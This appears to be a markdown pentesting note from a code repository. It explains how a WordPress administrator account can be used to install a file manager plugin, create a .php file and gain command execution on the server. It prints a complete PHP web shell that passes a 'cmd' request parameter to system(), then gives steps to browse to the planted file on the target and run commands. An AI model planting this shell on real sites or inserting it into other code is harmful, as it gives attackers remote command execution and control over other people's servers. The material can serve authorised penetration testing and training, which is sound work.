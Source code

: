 
# Wordpress - Install File Managment Plugin 

In case uploading a plugin was not possible for any reason related to custom wordpress configuration or web server configuration ( Maximum upload size ), you could install a plugin and activate it through another feature.
## Requirements

 - A valid **username and password** of a user with **admin rights** on the Wordpress.

## Exploitation

### Accessing the dashboard

Connect with a user with administrative rights on the Wordpress at [http://TARGET/wp-login.php](http://TARGET/wp-login.php).


### Installing the plugin

- Go to "Plugin" --> "Add New" page.

![](./imgs/add_new.png)

- In the next step, type "File Manager" in the search bar and install any of those file managment plugin ( First one recommended ). Active the plugin from the same page after installing it.

![](./imgs/Installing_filemanager.png)

### Using the plugin

- On the side bar, you will find the plugin name, Navigate to its page. 

![](./imgs/plugin_page.png)


- Right click on the icon that is related to creating a new file --> Choose plain txt --> change filename extension from ```.txt``` to ```.php```

![](./imgs/creating_new_file.png)

- Select the created file --> Right click --> Navigate to the code editor.

![](./imgs/code_edit.png)


- Paste your php webshell code.


```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>

```

![](./imgs/paste_phpshellcode.png)

- Navigate to the main URL of your target with attaching your created filename into it [http://TARGET/NewFile.php](http://TARGET/NewFile.php)

- Execute the commands.

![](./imgs/execute_commands.png)

## References
 - https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985

